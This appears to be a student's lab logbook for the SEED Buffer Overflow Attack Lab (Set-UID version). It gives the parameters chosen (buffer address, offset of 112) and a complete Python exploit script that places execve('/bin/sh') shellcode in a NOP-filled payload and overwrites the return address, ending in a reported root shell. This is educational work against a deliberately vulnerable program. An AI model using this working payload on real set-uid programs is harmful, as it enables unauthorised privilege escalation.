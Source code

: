 # LOGBOOK 5 - Buffer Overflow Attack Lab (Set-UID Version)

## Task 1
Both programs gave access to new shell, working as intended.
![5.2](images/5.2.PNG)
## Task 2
Compilation using make: 
![5.5](images/5.5.PNG)
## Task 3
![5.3](images/5.3.PNG)

To choose the value of the variables we decided:
 - shellcode = \x31\xc0\x50\ (...), from the 3.4. Executes /bin/sh;
 - start = 0, to send just the shellcode;
 - ret = 0xffffc9dc, buffer address, obtained during the debugging;
 - offset = 112, 108 (distance between ebp and buffer) + 4 (ebp size).
``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80").encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0              
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffc9dc     
offset = 112        

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
  ```

After the execution of the exploit, the vulnerable program stack, when run, gave us a root shell. 
![5.4](images/5.4.PNG)
